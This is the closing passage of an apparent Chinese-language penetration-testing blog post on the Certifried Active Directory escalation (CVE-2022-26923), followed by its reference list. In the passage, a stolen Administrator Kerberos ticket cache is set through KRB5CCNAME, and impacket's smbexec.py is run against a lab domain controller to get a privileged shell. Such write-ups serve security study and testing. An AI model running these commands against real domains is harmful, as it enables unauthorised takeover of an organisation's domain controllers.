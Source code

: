 然后，我们可以通过设置环境变量 `KRB5CCNAME` 来使用获取到的 Administrator 用户的票据，并通过 smbexec.py 获取域控制器的最高权限，相关命令如下。

```bash
export KRB5CCNAME=/root/PKINITtools/Administrator.ccache
python3 smbexec.py -k pentest.com/Administrator@dc01.pentest.com -no-pass
```

![](/assets/posts/2022-05-12-certifried-active-directory-domain-privilege-escalation/image-20220512001604399.png)
## Ending......

参考文献：

> https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
>
> https://whoamianony.top/attack-surface-mining-for-ad-cs/
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/3c154285-454c-4353-9a99-fb586e806944
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1
